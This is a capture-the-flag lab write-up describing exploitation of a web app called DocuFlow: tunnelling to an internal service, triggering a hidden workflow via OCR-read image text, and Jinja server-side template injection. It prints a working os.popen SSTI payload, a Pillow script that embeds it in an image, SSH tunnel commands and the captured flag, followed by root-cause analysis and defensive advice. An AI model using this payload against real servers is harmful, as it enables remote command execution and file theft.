

# Australia Lab Writeup

## MACC 2026 National CTF Morocco

Presented by Team CyberDune Club and EST Guelmim, Ibn Zohr University



## Executive Summary

The Australia lab was a web exploitation challenge centered on a hidden document-processing workflow inside the `DocuFlow` application. The successful path combined access to an internal service through an operations box, controlled OCR input, hidden workflow discovery, and server-side template injection in a compliance reporting feature. The final impact was arbitrary command execution through Jinja SSTI and direct disclosure of the flag stored in `/home/local.txt`.

## Environment and Objective

The lab required initial access to an operations jump host and a local tunnel to the internal web application:

- Ops box: `13.49.223.232`
- Internal application: `176.16.64.19:5000`
- Local tunnel: `127.0.0.1:5001`
- Target application: `DocuFlow`
- Objective: read the flag from `/home/local.txt`

The first operational step was to SSH to the ops box and forward a local port to the internal Flask-style web service.

Representative access flow:

```bash
ssh itsutsu@13.49.223.232
ssh -F /dev/null -o StrictHostKeyChecking=no -L 5001:176.16.64.19:5000 itsutsu@13.49.223.232 -N
```

After the tunnel was established, the application became accessible at:

```text
http://127.0.0.1:5001
```

## Initial Discovery

Once logged in as a normal employee user, the key finding was that the visible workflow list did not fully represent the application’s behavior. A hidden route named `Research Compliance` could be triggered indirectly when OCR processing recognized a very specific legal-style document format.

This meant the attack surface was larger than the normal user interface suggested. The workflow logic was partially data-driven, and the attacker could influence routing by controlling the uploaded image content.

## Triggering the Hidden Workflow

The hidden workflow was activated by uploading a wide image containing the legal banner text:

```text
ATTORNEY CLIENT PRIVILEGED LITIGATION HOLD
```

The challenge notes showed that adding a second OCR-readable line underneath the banner was sufficient to route the file into:

- Department: `Research Compliance`
- Workflow: `Compliance Report`

This was a critical turning point because the compliance renderer treated extracted text differently from the normal document flow.

## Verifying SSTI

To confirm template injection, the second line of the crafted image contained:

```text
{{7*7}}
```

The result page preserved the raw OCR output, but the rendered compliance report displayed:

```text
49
```

That behavior proved the extracted text was being evaluated by a Jinja template engine on the server side, creating a direct SSTI primitive.

## Exploitation

With SSTI confirmed, the next payload used Jinja global access to invoke `os.popen` and read the local flag file:

```jinja2
{{lipsum.__globals__.os.popen('cat /home/local.txt').read()}}
```

The exploit strategy was straightforward:

1. Generate a legal-style banner image.
2. Place the Jinja payload as the second OCR-readable line.
3. Upload the image to `DocuFlow`.
4. Open the compliance result page.
5. Read the evaluated output returned by the server.

Because the compliance renderer executed the template expression, the response disclosed the contents of `/home/local.txt` directly in the rendered report.

## Payload Construction

The local notes used a Python script with Pillow to generate the exploit image. A simplified representative version is:

```python
from PIL import Image, ImageDraw, ImageFont

font = "/usr/share/fonts/truetype/dejavu/DejaVuSansMono.ttf"
payload = "{{lipsum.__globals__.os.popen('cat /home/local.txt').read()}}"

img = Image.new("RGB", (1800, 420), "white")
d = ImageDraw.Draw(img)
d.text((120, 220), "ATTORNEY CLIENT PRIVILEGED LITIGATION HOLD", fill="black", font=ImageFont.truetype(font, 48))
d.text((140, 380), payload, fill="black", font=ImageFont.truetype(font, 18))
img.save("/tmp/legal_img_flag1.png")
```

This approach mattered because the bug was not triggered by a direct text field. The exploit had to survive OCR first, then pass through the workflow-routing logic, and only then reach the vulnerable Jinja renderer.

## Result

The final rendered output exposed the flag:

```text
flag_fe0a4f11_8f93_45d3_9d04_6c81743d7c44
```

This confirmed end-to-end exploitation of the hidden workflow and successful server-side file disclosure.

## Root Cause

The challenge relied on the unsafe composition of several design decisions:

- OCR output influenced backend workflow selection
- A hidden compliance workflow was reachable from user-controlled content
- OCR-extracted text was rendered through a Jinja template context
- User-controlled template syntax was not escaped or sandboxed

Any one of these issues would have been risky. Combined, they created a clean path from file upload to server-side command execution.

## Defensive Recommendations

- Treat OCR output as untrusted input at every stage of processing.
- Never feed extracted text into a template engine without strict escaping.
- Remove hidden or undocumented workflows that can be activated by untrusted content.
- Separate workflow routing logic from document body contents where possible.
- Add server-side template sandboxing and explicit deny-lists for dangerous object access patterns.

## Conclusion

The Australia lab was a strong example of non-obvious web exploitation. The vulnerability was not in a visible form field or a classic endpoint parameter, but in the interaction between OCR, hidden business logic, and unsafe template rendering. By controlling uploaded image text precisely, it was possible to unlock the hidden compliance flow, verify SSTI safely, escalate to command execution, and recover the final flag from the server.
